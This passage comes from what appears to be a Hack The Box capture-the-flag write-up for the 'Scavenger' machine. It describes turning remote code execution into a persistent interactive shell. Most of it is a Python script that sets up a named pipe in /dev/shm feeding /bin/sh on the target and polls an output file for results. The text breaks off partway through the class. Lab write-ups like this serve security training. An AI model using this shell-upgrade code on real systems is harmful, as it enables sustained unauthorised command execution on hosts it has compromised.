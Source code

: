     scavenger> pwd
    /home/ib01c03/sec03



### Stateful Shell

In the way that I like to do unnecessary polishing of my access, I
created a stateful shell using the mkfifo technique I first [learned
from Ippsec](https://www.youtube.com/watch?v=k6ri-LFWEj4) to go from RCE
to stateful shell. I first implemented something like this in
[Stratosphere](/htb-stratosphere.md#building-a-shell). The
idea is to create a pipe, `input`, and then `tail -f` that file so that
any new content written to it is immediately passed to `sh` and the
results are passed to another file. Then I'll just have a thread
constantly reading from that file.



    #!/usr/bin/env python3

    import base64
    import random
    import requests
    import threading
    import time
    from cmd import Cmd


    class Term(Cmd):
        prompt = "scavenger> "

        def __init__(self):
            Cmd.__init__(self)
            session = random.randrange(10000, 99999)
            self.interval = 0.5
            print(f"[*] Session ID: {session}")
            self.stdin = f"/dev/shm/input.{session}"
            self.stdout = f"/dev/shm/output.{session}"

            print("[*] Setting up fifo shell on target")
            self.run_raw_command(
                f"mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}",
                timeout=0.1,
            )

            thread = threading.Thread(target=self.ReadThread, args=())
            thread.daemon = True
            thread.start()

        def ReadThread(self):
            print("[+] Read Thread starting")
            GetOutput = f"""/bin/cat {self.stdout}"""
            ClearOutput = f"""echo -n "" > {self.stdout}"""

            while True:
                result = self.run_raw_command(GetOutput)
                if result:
                    print(result)
                    self.run_raw_command(ClearOutput)
                time.sleep(self.interval)

